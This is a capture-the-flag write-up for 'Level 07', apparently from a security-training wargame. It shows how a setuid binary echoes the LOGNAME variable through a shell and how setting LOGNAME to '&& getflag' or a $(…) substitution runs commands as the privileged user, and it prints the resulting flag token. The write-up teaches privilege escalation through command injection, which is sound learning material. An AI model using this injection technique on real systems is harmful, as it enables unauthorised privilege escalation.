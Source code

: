 # LEVEL 07
In our home directory, we see an executable with suid/guid:
```
>$ ls -la
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```
Using strings command to return the string characters into the binary file:
```
>$ strings level07
[..]
[^_]
LOGNAME
/bin/echo %s
[..]
```
We retrieve the `.env` variable `'LOGNAME'` (which is an env variable that contains the user that executes the current shell process), with `asprintf` on the string `/bin/echo %s` to replace `%s` with the result of `LOGNAME`.

Let's check its value and what happens if we change it:
```
>$ echo $LOGNAME
level07
>$ export LOGNAME="hello"
>$ ./level07
hello
```
This is a vulnerability, since the file as suid bit and therefore will run any command as user flag07:
```
>$ export LOGNAME="&& whoami" /or/ LOGNAME=$\(whoami\)
>$ ./level07
flag07
```
So injecting getflag should yield the desired result:
```
>$ export LOGNAME="&& getflag" /or/ LOGNAME=$\(getflag\)
>$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
#### Vulnerability:
* System call by privileged user to echo env variable -> Privilege escalation via env variable.

#### Documentations:
1. https://unix.stackexchange.com/questions/268378/difference-between-logname-and-logname
1. http://codereview.stackexchange.com/questions/6435/c-system-function-vulnerability